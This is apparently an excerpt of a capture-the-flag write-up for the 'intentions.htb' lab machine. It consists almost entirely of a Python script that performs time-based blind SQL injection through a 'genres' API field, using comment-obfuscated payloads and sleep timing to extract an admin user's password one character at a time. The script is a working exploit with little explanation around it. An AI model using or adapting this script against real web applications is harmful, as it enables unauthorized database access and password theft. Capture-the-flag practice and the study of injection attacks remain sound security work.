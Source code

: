 # Time-based boolean extraction

Wrote `blind.py` for extracting data.

```python
import requests
import sys
import string

URL = "http://intentions.htb"

def get_payload(text):
    payload = "food,travel,nature'/**/or/**/(" + text.replace(" ", "/**/") + ")/**/or/**/1='"
    return payload

def req(payload):
    headers = {
        "Cookie": "token=TOKEN"
    }
    data = {
        "genres":payload
    }
    
    r = requests.post(URL + "/api/v1/gallery/user/genres", json=data, headers=headers)
    if r.status_code != 200:
        print("ERROR NOT 200")
        sys.exit()

    try:
        r = requests.get(URL + "/api/v1/gallery/user/feed", headers=headers, timeout=0.7)
    except requests.exceptions.ReadTimeout:
        return -1
    except requests.exceptions.ConnectTimeout:
        return -2

    return r.status_code

def extract_usernames():
    characters = "$," + string.ascii_lowercase + "_!@#./?^&*" + "0123456789" + string.ascii_lowercase.upper()
    current = ''
    left = len(current) + 1

    TO_EXTRACT = "password"

    while True:
        for c in characters:
            payload = get_payload(f"SELECT sleep(1) from users WHERE BINARY LEFT({TO_EXTRACT}, {left})='{current}{c}' and admin=1 LIMIT 1")
            status = req(payload)

            print(left, current + c, status)

            if status == -1:
                left += 1
                current += c
                break

extract_usernames()
```
